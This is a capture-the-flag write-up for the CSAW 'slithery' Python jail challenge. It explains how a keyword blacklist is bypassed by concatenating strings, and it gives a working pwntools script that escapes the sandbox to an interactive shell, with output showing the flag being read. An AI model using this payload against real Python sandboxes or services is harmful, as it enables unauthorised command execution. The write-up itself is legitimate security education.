 # slithery (Pwn, 100 points)

> Setting up a new coding environment for my data science students. Some of them
> are l33t h4ck3rs that got RCE and crashed my machine a few times :(. Can you
> help test this before I use it for my class? Two sandboxes should be better than
> one...
> 
> nc pwn.chal.csaw.io 5011

This challenge is a Python jail escape and lucky for me our team had just done 
one few weekends ago so I was fairly familiar with the tricks to break out. They
provided the `sandbox.py` that was running, so we need to figure out how to get
around it. The important part is this but they don't tell us the blacklist.

```python
command = input(">>> ")
if any([x in command for x in blacklist.BLACKLIST]):
    raise Exception("not allowed!!")
```

The first step of these challenges is usually to find out what sort of globals
or builtins are available and then figure out how to use them to your
advantage. Nice for us it's not that restricted so we can run the following
commands to see what globals are available and what's on the blacklist.

```sh
>>> print(globals())
{'__name__': '__main__', '__doc__': None, '__package__': None, '__loader__': <_frozen_importlib_external.SourceFileLoader object at 0x7f3f787d1c40>, '__spec__': None, '__annotations__': {}, '__builtins__': <module 'builtins' (built-in)>, '__file__': 'sandbox.py', '__cached__': None, 'b64decode': <function b64decode at 0x7f3f7868e940>, 'blacklist': <module 'blacklist' from '/home/slithery/blacklist.py'>, 'main': <function main at 0x7f3f786dedc0>}

>>> print(blacklist.BLACKLIST)
['__builtins__', '__import__', 'eval', 'exec', 'import', 'from', 'os', 'sys', 'system', 'timeit', 'base64commands', 'subprocess', 'pty', 'platform', 'open', 'read', 'write', 'dir', 'type']
```

Because it only checks our input for full-words matches in the blacklist, we can
bypass that by concatenating strings and open up a shell. Running our exploit:

```sh
$ python3 exploit.py
[+] Opening connection to pwn.chal.csaw.io on port 5011: Done
[*] Switching to interactive mode
$ id
uid=1000(slithery) gid=1000(slithery) groups=1000(slithery)
$ cat flag.txt
flag{y4_sl1th3r3d_0ut}
```

## Exploit Script

```python
from pwn import *

def exploit():
    try:
        io = remote("pwn.chal.csaw.io", 5011)
        p = "globals()['_'+'_builtins__'].__dict__['__i'+'mport__']('o'+'s').__dict__['s'+'ystem']('sh')"
        io.sendlineafter(">>> ", p)
        io.interactive()
    finally:
        io.close()

exploit()
```

